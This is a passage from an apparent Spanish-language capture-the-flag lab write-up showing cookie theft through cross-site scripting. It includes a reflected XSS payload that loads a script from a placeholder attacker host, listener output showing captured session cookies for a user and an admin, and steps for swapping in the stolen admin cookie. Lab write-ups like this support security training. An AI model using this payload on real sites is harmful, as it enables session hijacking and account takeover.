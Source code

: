 Y si volvemos a donde tenemos lanzado el servidor de `Node.js` veremos lo siguiente:

```
Servidor Node.js corriendo en http://localhost:8000
Cookie recibida: PHPSESSID=8b38v6l7en8o6uasc4c281gi6p
Cookie guardada
```

Vemos que lo capturo de forma correcta, pero sera la de nuestro `usuario` para obtener la del `admin` vamos a enviar en el campo de `link` de enviar el `writeup` el siguiente link:

```
http://trr0rlabs.bbl/form.php/"><img src/onerror=import("http:<IP_ATTACKER>:8000/cookie.js")>
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora si esperamos un poco veremos que nos llega la `Cookie` del usuario `admin`.

```
Servidor Node.js corriendo en http://localhost:8000
Cookie recibida: PHPSESSID=ch5tusd7c1p83i5f1s38nps6k6
Cookie guardada
```

Vemos que ha funcionado y ahora solo tendremos que `inspeccionar` la pagina, irnos a `Storage` y en la parte de `Cookie` reemplazaremos la que tenemos actualmente por la del `admin`:

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
